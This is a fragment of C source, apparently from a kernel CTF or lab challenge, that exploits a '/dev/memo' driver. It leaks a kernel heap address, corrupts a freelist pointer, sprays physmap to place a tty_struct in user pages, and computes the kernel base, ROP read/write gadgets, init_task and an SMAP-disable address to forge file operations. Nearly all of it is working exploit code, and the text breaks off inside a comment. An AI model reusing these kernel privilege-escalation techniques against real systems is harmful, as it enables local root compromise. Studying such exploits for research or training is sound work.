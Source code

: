 ```c
}

int main(int argc, char **argv) {

	char trash[0x3FF];
	struct skewBuf buf;
	int i;

	assert(sizeof(buf) == 0x400);
	memset(trash, 0xcc, sizeof(trash));

	// open the device
	fd = Open("/dev/memo", O_RDWR);
	
	// leak a SLAB address
	Write(fd, trash, sizeof(trash));
	Read(fd, &buf, sizeof(buf));
	unsigned long heapAddr = buf.vec[0];
	LOG("Got a kernel heap leak: %p\n", (void *)heapAddr);

	// overwrite the fd of next chunk to a 'guess'ed physmap address
	
	lseek(fd, 0x3FF, SEEK_SET);
	buf.vec[0] = heapAddr & 0xffffffffff000000;
	LOG("tty_struct will be allocated at address: %p\n", (void *)buf.vec[0]);
	Write(fd, &buf, sizeof(buf));

	// physmap spray
	physmap_spray();

	// allocate a ptmx object, it will be allocated to userspace mmap pages
	int tty_fd = Open("/dev/ptmx", O_RDWR|O_NOCTTY);
	unsigned long*pg = page_hit();
	if (!pg) {
		puts("[-] failed to get a tty_struct allocated in one of our pages");
		exit(-1);
	}

	LOG("now page %p is synonymous with tty_struct of fd %d\n", pg, tty_fd);

	// create fake fops
	// 0xffffffff810a0333: mov dword ptr [rdx], esi; ret; 
	// 0xffffffff81051543: mov rax, qword ptr [rdx + 0x28]; ret; 
	unsigned long fops = pg[3];
	kernel_base = fops - 0xffffffff81e65800 + 0xffffffff80e00000;
	w_gadget = kernel_base + 0xffffffff810a0333 - 0xffffffff80e00000;
	r_gadget = kernel_base + 0xffffffff81051543 - 0xffffffff80e00000;
	init_task = kernel_base + 0xFFFFFFFF82211740 - 0xffffffff80e00000;
	setup_disble_smap = kernel_base + 0xffffffff8a98f556 - 0xffffffff80e00000;

	for (i = 0; i < 0x80; i++) {
		ftable[i] = 0xdead0000 + i;
	}
	/*
	0xffffffff81e65800:	0xffffffff81419300	0xffffffff81419840
	0xffffffff81e65810:	0xffffffff81418ee0	0xffffffff81418e60
	0xffffffff81e65820:	0xffffffff814191a0	0x0000000000000000
	0xffffffff81e65830:	0xffffffff81419190	0xffffffff81419100
	0xffffffff81e65840:	0x0000000000000000	0x0000000000000000
	0xffffffff81e65850:	0xffffffff81419660	0xffffffff81418e50
	0xffffffff81e65860:	0x0000000000000000	0x0000000000000000
	0xffffffff81e65870:	0xffffffff81418f80	0x0000000000000000
	0xffffffff81e65880:	0xffffffff814190e0	0xffffffff814195f0
```